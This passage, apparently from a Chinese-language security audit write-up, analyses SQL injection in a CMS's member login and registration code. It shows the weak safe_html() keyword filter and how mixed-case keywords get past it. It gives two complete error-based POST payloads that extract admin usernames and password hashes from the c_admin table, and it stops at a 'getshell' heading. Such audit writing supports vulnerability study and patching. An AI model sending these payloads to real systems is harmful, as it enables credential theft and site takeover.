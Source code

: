 /system/module/member/index

<br/> 上面的程序也不是很难读，可以看到POST接收过来登录的账号密码，然后通过 safe_html() 函数 进行过滤，判断是否为空，进而在103行直接带入数据库查询。这里仅仅通过 safe_html() 函数进行了过滤，所以很显然是存在注入的。

###### 漏洞复现

payload：

```
username=bestorange'or updatexml(1,concat(0x7e,(selEct concat(username,0x23,password) frOm c_admin),0x7e),1) #&amp;password=bestorange&amp;submit=+%E7%99%BB+%E5%BD%95+
```

##### 注册处sql注入漏洞

###### 漏洞分析

现在先熟悉一下流程，可以看到能够进行注册登录。<br/> 那就注册一个账号orange，密码orange。

<br/> 上面看到密码是进行了两次md5加密，接下来看一下代码。<br/> /system/modules/member/index.php

<br/> 上面的代码很容易读懂，函数是register_save()，注册保存。首先POST接收传过来的参数，判断是不是为空。<br/> 66行密码进行两次md5加密，可以看到并没有进行明显的过滤，但是在50行和72行看到了过滤函数safe_html()，下面就开始追踪一下这个函数。

```

function safe_html($str){

if(empty($str)){return;}

$str=preg_replace('/select|insert | update | and | in | on | left | joins | delete |\%|\=|\/\*|\*|\.\.\/|\.\/| union | from | where | group | into |load_file

|outfile/','',$str);

return htmlspecialchars($str);

}
```

分析一下这个过滤函数，只是简单的把上面看到的 select ，insert，update 等等替换成了空。<br/> 在 safe_html 处虽然过了个SQL注入的敏感词，还过滤了=和**，但是没有考虑SQL注入敏感词的大小写，这里只过滤了小写，那么我们用大写绕过，这里过滤的=和**，我们可以使用不带*和=的常规保存SQL注入语句。

###### 漏洞复现

这里利用报错注入来进行测试，bestorange’ or updatexml(1,concat(0x7e,(selEct concat(username,0x23,password) frOm c_admin),0x7e),1) #&amp;password=bestorange

payload：

```
username=bestorange' or updatexml(1,concat(0x7e,(selEct concat(username,0x23,password) frOm c_admin),0x7e),1) #&amp;password=bestorange&amp;password2=bestorange&amp;fields%5Btruename%5D=bestorange&amp;fields%5Bemail%5D=bestorange&amp;submit=+%E6%B3%A8+%E5%86%8C+
```

##### getshell
